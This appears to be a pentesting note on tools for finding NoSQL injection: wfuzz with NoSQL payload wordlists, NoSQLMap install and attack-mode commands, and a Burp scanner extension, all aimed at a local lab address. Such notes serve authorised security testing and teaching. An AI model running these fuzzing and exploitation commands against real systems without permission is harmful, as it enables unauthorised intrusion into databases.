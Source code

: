 # Tools of the Trade

## Fuzzing

- **Fuzzing** means using wordlists of common NoSQLi payloads to check for injection points by observing differences in server responses.
- Recommended wordlists:
  - `SecLists/Fuzzing/Databases/NoSQL.txt`
  - `nosqlinjection_wordlists/mongodb_nosqli.txt`
- Example wfuzz usage (for blind or error-based NoSQLi finding):

```bash
wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt \
      -u http://127.0.0.1/index.php \
      -d '{"trackingNum": FUZZ}'
```
- Analyze the length/structure of responses to highlight interesting payloads.

## Automated Tools

- **NoSQLMap** (open source Python2 tool):
    - Automated probing and exploitation of NoSQL endpoints (injection, RCE, file read etc)
    - https://github.com/codingo/NoSQLMap

- Example install steps:
  ```bash
  git clone https://github.com/codingo/NoSQLMap.git
  cd NoSQLMap
  sudo apt install python2.7
  wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
  python2 get-pip.py
  pip2 install -r requirements.txt
  # add modules as needed (pymongo, etc)
  ```
- Example use:
  ```bash
  python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 \
    --uri /index.php --httpMethod POST \
    --postData email,admin@mangomail.com,password,qwerty \
    --injectedParameter 1 --injectSize 4
  ```
- It will report vulnerable parameters and suggest exploitation vectors.

- **Burp Suite extensions:**
    - *Burp-NoSQLiScanner* can scan forms for NoSQLi (requires Burp Pro)
    - https://github.com/PortSwigger/nosqli-scanner

## Tips
- Response length and structure is the easiest low-effort indicator of successful injection.
- Always manually confirm with a browser/Burp if fuzzing suggests interesting behavior.
- Custom scripts using `requests/wfuzz` are effective for chaining creative payloads and conditions.
